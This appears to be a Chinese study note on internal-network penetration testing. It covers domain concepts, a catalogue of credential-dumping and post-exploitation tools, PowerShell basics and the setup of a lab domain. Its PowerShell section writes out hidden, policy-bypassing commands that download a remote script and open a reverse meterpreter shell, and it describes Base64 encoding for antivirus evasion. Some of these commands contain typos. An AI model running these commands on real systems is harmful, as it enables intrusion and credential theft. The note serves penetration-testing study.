# 1. 内网渗透测试基础

## 1.1 内网基础

工作组：将不同的计算机按功能（或部门）分别列入不同的工作组，处在同一交换机下。

域：安全边界的计算机集合；在两个域中，一个域中的用户无法访问另一个域中的资源，安全管理控制机制更严格。

域树：多个域通过建立信任关系组成的集合，子域只能使用父域的名字作为其域名的后缀




域森林：多个域树通过建立信任关系组成的集合



## 1.2 主机平台及常用工具

### 1.2.1 虚拟机安装

Kali Linux 即可，其余 略。

### 1.2.2 Kali Linux渗透测试平台及常用工具

**WCE**	https://www.ampliasecurity.com/research/windows-credentials-editor/

​		WCE（Windows凭据管理器）是安全人员广泛使用的一种安全工具，用于通过Penetration Testing评估Windows网络的安全性，支持Windows XP/Server 2003/Vista/7/Server2008/8。

​		WCE常用于列出登录会话，以及添加、修改、列出和删除关联凭据（例如LM Hash、NTLM Hash、明文密码和Kerberos票据）。

​		可以访问[链接]获取


**minikatz**	https://github.com/gentilkiwi/mimikatz/releases/

​		minikatz用于从内存中获取明文密码、现金票据和密钥等。

​		可以访问[链接]获取，或者使用“wget<下载链接>”命令下载。


**Responder**

​		Responder不仅用于嗅探网络内所有的LLMNR包和获取各主机的信息，还提供了多种渗透测试环境和场景，包括HTTP/HTTPS、SMB、SQL Server、FTP、IMAP、POP3等。


**BeEF**	http://beefproject.com/

​		BeEF是一款针对浏览器的渗透测试工具。

​		BeEF可以通过XSS漏洞，利用JavaScript代码对目标主机的浏览器进行测试。同时，BeEF能够配合Metasploit进一步对目标主机进行测试。

​		方网站见[链接]。


**DSHashes **	https://storage.googleapis.com/google-code-archive-source/v2/code.google.com/ptscripts/source-archive.zip

​		DSHashes的作用是从NTDSXtract中提取用户易于理解的散列值。

​		下载地址见[链接]。


**PowerSploit** https://github.com/PowerShellMafia/PowerSploit.git

​		PowerSploit 是一款基于PowerShell的后渗透（Post-Exploitation）测试框架。PowerSploit包含很多PowerShell脚本，主要用于渗透测试中的信息收集、权限提升、权限维持。

​		下载地址见[链接]。


**Nishang **	https://github.com/samratashok/nishang.git

​		Nishang是一款针对PowerShell的渗透测试工具，集成了框架、脚本（包括下载和执行、键盘记录、DNS、延时命令等脚本）和各种Payload，被广泛应用于渗透测试的各个阶段。

​		下载地址见[链接]。


**Empire**

​		Empire是一款内网渗透测试利器，其跨平台特性类似于Metasploit，有丰富的模块和接口，用户可自行添加模块和功能。


**ps_encoder.py**	https://raw.githubusercontent.com/darkoperator/powershell_scripts/master/ps_encoder.py

​		ps_encoder.py是使用Base64编码封装的PowerShe命令包，其目的是混淆和压缩代码。

​		下载地址见[链接]。


**smbexec**	https://github.com/brav0hax/smbexec

​		smbexec是一个使用Samba工具的快速PsExec类工具。
​		PsExec的执行原理是：先通过ipcs进行连接，再将psexesvc.exe释放到目标机器中。通过服务管理（SCManager）远程创建 psexecsvc服务并启动服务。客户端连接负责执行命令，服务端负责启动相应的程序并回显数据。
​		以上描述的是Syslntermals中的PsExec的执行原理。Metasploit、impacket、PTH中的PsExec使用的都是这种原理。
​		PsExec会释放文件，特征明显，因此专业的杀毒软件都能将其检测出来。在使用PsExec时需要安装服务，因此会留下日志。退出PsExec时偶尔会出现服务不能删除的情况，因此需要开启adminS445端口共享。在进行攻击溯源时，可以通过日志信息来推测攻击过程。PsExec的特点在于，在进行渗透测试时能直接提供目标主机的System权限。
​		smbexec的GitHub页面见[链接]。


**后门制造工厂**	https://github.com/secretsquirrel/the-backdoor-factory.git

​		后门制造工厂用于对PE、ELF、Mach-O等二进制文件注入Shellcode（其作者已经不再维护该工具），下载地址见[链接]。


**Veil**	https://github.com/Veil-Framework/Veil.git

​		Veil用于生成绕过常见防病毒解决方案的Metasploit有效载荷，下载地址见[链接]。


**Metasploit**	https://www.metasploit.com/

​		Metasploit本质上是一个计算机安全项目（框架），目的是为用户提供有关已知安全漏洞的重要信息，帮助用户制定渗透测试及IDS测试计划、战略和开发方法。
​		Metasploit的官方网站见[链接]。


**Cobalt Strike**	https://www.cobaltstrike.com/

​		Cobalt Strike是一款优秀的后渗透测试平台，功能强大，适合团队间协同工作。Cobalt Strike主要用于进行内网渗透测试。
​		Cobalt Strike的官方网站见[链接1-16]。


### 1.2.3 Windows 渗透测试平台及常用工具

**注意事项**

​		用于进行渗透测试的Windows主机，推荐安装Windows 7/10操作系统。建议使用虚拟机并对系统进行加固。

​		如果不使用NetBlOS，就要禁用NetBIOS功能，并与Kali Linux平台协同工作。


**Nmap** 

​		Nmap是一个免费的网络发现和安全审计工具，用于发现主机、扫描端口、识别服务、识别操作系统等。


**Wireshark** 

​		Wireshark是一个免费且开源的网络协议和数据包解析器。它能把网络接口设置为混杂模式，监控整个网络的流量。


**PuTTY** 

​		PuTTY是一个免费且开源的SSH和Telnet客户端，可用于远程访问。


**sqlmap** 

​		sqlmap是一个免费且开源的工具，主要用于检测和执行应用程序中的SQL注入行为。sqlmap也提供了对数据库进行攻击测试的选项。


**Burp Suite** 

​		Burp Suite是一个用于对Web应用程序进行安全测试的集成平台，有两个主要的免费工具，分别是Spider和Intruder。Spider用于抓取应用程序页面。Intruder用于对页面进行自动化攻击测试。Burp Suite专业版额外提供了一个工具，叫作Burp Scanner，用于扫描应用程序中的漏洞。


**Hydra** 

​		Hydra是一个网络登录破解工具。


**Getif** 

​		Getif是一个基于Windows的免费图形界面工具，用于收集SNMP设备的信息。


**Cain&Abel** 	http://www.oxid.it/cain.html

​		Cain&Abel是Windows中的一个密码恢复工具，可以通过嗅探网络，使用Dictionary、Brute-Force和Cryptanalysis，破解加密密码、记录VolP会话、恢复无线网络密钥、显示密码框、发现缓存中的密码、分析路由信息，并能恢复各种密码。该工具不会利用任何软件漏洞和无法轻易修复的错误。
​	Cain&Abel涵盖了协议标准、身份验证方法和缓存中的一些安全弱点，主要用于恢复密码和凭证，下载地址见[链接]。


**PowerSploit** 	https://github.com/mattifestation/PowerSploit

​		PowerSploit的GitHub页面见[链接]。


**Nishang** 	https://github.com/samratashok/nishang

​		Nishang的GitHub页面见[链接]。


### 1.2.4 Windows Powershell 基础

Powershell 教程网站：[PowerShell 在线教程 – PowerShell 中文博客 (pstips.net)](https://www.pstips.net/powershell-online-tutorials)

查看Powershell版本号

```powershell
PS C:\Users\perry> Get-Host


Name             : ConsoleHost
Version          : 5.1.19041.1682
InstanceId       : bf46d12f-a2ca-4103-a3ae-556d90c58801
UI               : System.Management.Automation.Internal.Host.InternalHostUserInterface
CurrentCulture   : zh-CN
CurrentUICulture : zh-CN
PrivateData      : Microsoft.PowerShell.ConsoleHost+ConsoleColorProxy
DebuggerEnabled  : True
IsRunspacePushed : False
Runspace         : System.Management.Automation.Runspaces.LocalRunspace
```

```powershell
PS C:\Users\perry> $PSVersionTable.PSVERSION

Major  Minor  Build  Revision
-----  -----  -----  --------
5      1      19041  1682
```


**.ps1 文件**

一个PowerShell脚本其实就是一个简单的文本文件，其扩展名为“ps1”。


**执行策略**

为了防止使用者运行恶意脚本，PowerShell提供了一个执行策略。在默认情况下，这个执行策略被设置为“不能运行”。

如果PowerShell脚本无法运行，可以使用下面的cmdlet命令查询当前的执行策略。

```powershell
PS C:\Users\perry> Get-ExecutionPolicy
Restricted
```


**设置PowerShell的执行策略。**

```powershell
Set-ExecutionPolicy <policy name>
```

参数列表：

Restricted：脚本不能运行（默认设置）。

RemoteSigned：在本地创建的脚本可以运行，但从网上下载的脚本不能运行（拥有数字证书签名的除外）。

AllSigned：仅当脚本由受信任的发布者签名时才能运行。

Unrestricted：允许所有脚本运行。


**管道**

管道的作用是将一个命令的输出作为另一个命令的输入，两个命令之间用 “|” 连接。

如：执行如下命令，让所有正在运行的、名字以字符“p”开头的程序停止运行。

```powershell
PS> get-process p* | stop-process
```


#### 常用命令

在PowerShell下，类似cmd命令的命令叫作cmdlet命令。二者的命名规范一致，都采用“动词-名词”的形式，例如“New-ltem”。

动词部分一般为Add、New、Get、Remove、Set等。

命令的别名一般兼容WindowsCommand和Linux Shell，例如Get-Childltem命令在dir和ls下均可使用。

另外，PowerShell命令不区分大小写。

```powershell
# 新建目录folder1
PS C:\Users\perry\Desktop> New-Item folder1 -ItemType Directory

# 新建文件
PS C:\Users\perry\Desktop> New-Item 1.txt -ItemType File

# 删除目录folder1
PS C:\Users\perry\Desktop> Remove-Item folder1

# 显示文本内容
PS C:\Users\perry\Desktop> Get-Content 1.txt
This is a txt file.

# 设置文本内容
PS C:\Users\perry\Desktop> Set-Content 1.txt -Value helloWorld!
PS C:\Users\perry\Desktop> Get-Content 1.txt
helloWorld!

# 追加内容
PS C:\Users\perry\Desktop> Add-Content 1.txt -Value !!!!!!
PS C:\Users\perry\Desktop> Get-Content 1.txt
helloWorld!
!!!!!!

# 清除内容
PS C:\Users\perry\Desktop> Clear-Content 1.txt
```

要运行 PowerShell 脚本，必须使用管理员权限将策略从Restricted 改成Unrestricted。


##### **绕过本地权限并运行**

​		将 test.ps1 上传至目标服务器。执行如下命令，可绕过安全策略执行。

```powershell
PowerShell.exe -ExecutionPolicy Bypass -File test.ps1
```

​		将同一个脚本上传到目标服务器，在目标本地执行 ps1 文件

```powershell
PowerShell.exe -exec bypass -Command "& {Import-Module C:\test.ps1; Invoke-AllChecks}"
```

​		从网站服务器下载脚本，绕过本地权限并隐藏执行

```powershell
PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -NoProfile -NonIIEX(New-ObjectNet.WebClient).DownloadString("xxx.ps1");[Parameters]
```


如：使用PowerUp.psl脚本在目标机器上执行meterpreter Shell。

首先，要知道使用的参数是什么。查看 Invoke-Shellcode.psl 源码，了解如何调用反向HTTPS meterpreter Shell。

> 项目：[cheetz/PowerSploit: PowerSploit - A PowerShell Post-Exploitation Framework (github.com)](https://github.com/cheetz/PowerSploit)
>
> 下载：https://raw.githubusercontent.com/cheetz/PowerSploit/master/CodeExecution/Invoke--Shellcode.ps1



完整执行代码：

```powershell
PowerShell.exe -ExecutionPolicy Bypass -WindowsStyle Hidden -No Profile -NonI IEX(New-ObjectNet.WebClient).DownloadString("[URL]"); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.30.129 -Lport 80
```

```powershell
PowerShell.exe -ExecutionPolicy Bypass -WindowsStyle Hidden -No Profile -NonI IEX(New-ObjectNet.WebClient).DownloadString("https://raw.githubusercontent.com/cheetz/PowerSploit/master/CodeExecution/Invoke--Shellcode.ps1"); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.30.129 -Lport 80
```

> 常用参数：
>
> | 参数                                   | 说明                                                         |
> | -------------------------------------- | ------------------------------------------------------------ |
> | ExecutionPolicy Bypass（-Exec Bypass） | 绕过执行安全策略。这个参数非常重要。在默认情况下，PowerShell的安全策略规定PowerShell不能运行命令和文件 |
> | WindowStyle Hidden（-W Hidden）        | 隐藏窗口                                                     |
> | NonInteractive（-Nonl）                | 非交互模式。PowerShel不为用户提供交互式的提示                |
> | NoProfile（-NoP）                      | PowerShell 控制台不加载当前用户的配置文件                    |
> | noexit                                 | 执行后不退出Shell                                            |
> | NoLogo                                 | 启动不显示版权标志的PowerShell                               |


##### 使用Base64对PowerShell命令进行编码

作用：免杀

项目：[darkoperator/powershell_scripts: Powershell Scripts (github.com)](https://github.com/darkoperator/powershell_scripts)

下载：https://raw.githubusercontent.com/darkoperator/powershell_scripts/master/ps_encoder.py


##### 运行32位和64位PowerShell

\*：一些PowerShell脚本只能运行在指定的平台上。例如，在64位的平台上，需要通过64位的PowerShell脚本来运行命令。

```powershell
# 32位
Powershell.exe -NoP -NonI -W Hidden -Exec Bypass

# 64位
%WinDir%\syswow74\windowspowershell\v1.0\powershell.exe -NoP -NonI -W Hidden -Exec Bypass
```


## 1.3 构建内网环境

机器：

- Windows Server 2012
- Windows Server 2008
- Windows 7


### Windows Server 2012 配置

IP与计算机名：


安装服务




安装成功后重启，并将其提升位域控制器







DNS选项的警告不用管，保持默认 下一步




同样 保持默认 继续




点击“安装”




重启完成后，可见：


为 Windows Server 2008 和 Windows 7 用户创建域控制服务器账户



> 补充：改下姓。。。
>
> 


取消默认的账户禁用




### Windows 7 配置

配置IP，DNS后，在命令行中 `ping hacke.testlab` 验证，是否成功添加到该域


更改计算机名称，并加入域

此时需要输入的安全认证为 Windows Server 2012 的 Administator 与密码（本地账户）



